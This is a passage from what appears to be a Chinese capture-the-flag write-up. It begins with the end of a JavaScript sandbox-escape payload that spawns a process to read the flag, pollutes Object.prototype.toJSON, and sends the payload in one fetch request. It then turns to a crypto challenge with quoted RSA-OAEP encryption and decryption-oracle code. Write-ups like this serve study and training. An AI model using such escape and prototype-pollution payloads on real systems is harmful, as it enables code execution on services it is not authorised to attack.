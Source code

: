 ```javascript
              windowsHide: false,
              windowsVerbatimArguments: false,
              killSignal: undefined,
              stdio: [
                { type: 'pipe', readable: true, writable: false },
                { type: 'pipe', readable: false, writable: true },
                { type: 'pipe', readable: false, writable: true }
              ]
            }).output[1].toString().trim()
          console.log(flag)
          process.__proto__.__proto__.__proto__.constructor.prototype.toJSON =
            () => flag
        } catch (e) {
          console.log(e.stack)
        }
      },
      get: (...args) => {
        if(args[1] === Symbol.toPrimitive) {
          return c(name + '.' + String(args[1]), () => {
            throw new Error()
          });
        }
        return c(name + '.' + String(args[1]));
      }
    }
  );
  return c('a', {});
})()`
  })
})
  .then((res) => res.text())
  .then(console.log)
```

可以做到单次请求即返回flag

## Crypto:

### Provably Secure:

首先，这道题可以在代码中发现一点问题

```python
...
def encrypt(pk0, pk1, msg):
    r = urandom(16)
    r_prime = strxor(r, msg)
    ct0 = pk0.encrypt(r, padding.OAEP(mgf=padding.MGF1(algorithm=hashes.SHA256()),
                         algorithm=hashes.SHA256(), label=None))
    ct1 = pk1.encrypt(r_prime, padding.OAEP(mgf=padding.MGF1(algorithm=hashes.SHA256()), 
                         algorithm=hashes.SHA256(), label=None))
    return ct0.hex() + ct1.hex()
...encrypt:
                ct = encrypt(pk0, pk1, msg)
                seen_ct.add(ct)
...decrypt:
                in_ct = bytes.fromhex(input("ct (512 byte hexstring): ").strip())
                if len(in_ct) != 512:
                    print("Must be 512 bytes!")
                    exit(0)
                if in_ct in seen_ct:
                    print("Cannot query decryption on seen ciphertext!")
                    exit(0)
                print(decrypt(key0, key1, in_ct).hex())
```